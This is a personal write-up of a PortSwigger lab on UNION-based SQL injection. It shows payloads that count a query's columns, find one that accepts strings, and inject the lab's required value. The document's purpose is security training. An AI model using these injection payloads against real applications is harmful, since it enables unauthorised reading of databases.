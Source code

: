 [Source](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)
## Task
This exercise contains a SQL injection vulnerability in the product category filter. The query results are returned in the application response, so we can use a `UNION` attack to extract data from other tables. To build such an attack, we first need to determine the number of columns returned by the query. This can be done using the technique learned in the previous exercise. The next step is to determine the column that is compatible with string data.

The exercise will provide a random value that needs to be forced to appear in the query results. To solve the task, perform a SQL injection attack using the `UNION` operator, which will return an additional row with the provided value. This technique will help you determine which columns are compatible with string data.
## Solution
Go to the site
![[Pasted image 20241201183252.png]]
Select any category (I chose `Lifestyle`). Find how many columns there are in total:
```SQL
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```
I found 3.
In `URL` we add
```SQL
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL, NULL,'a'--
```
The correct one here is `' UNION SELECT NULL,'a',NULL--`
![[Pasted image 20241201184201.png]]
The task on the site page says that you need to output the string `Ra0nUk` this way
```SQL
' UNION SELECT NULL,'Ra0nUk',NULL--
```
![[Pasted image 20241201184316.png]]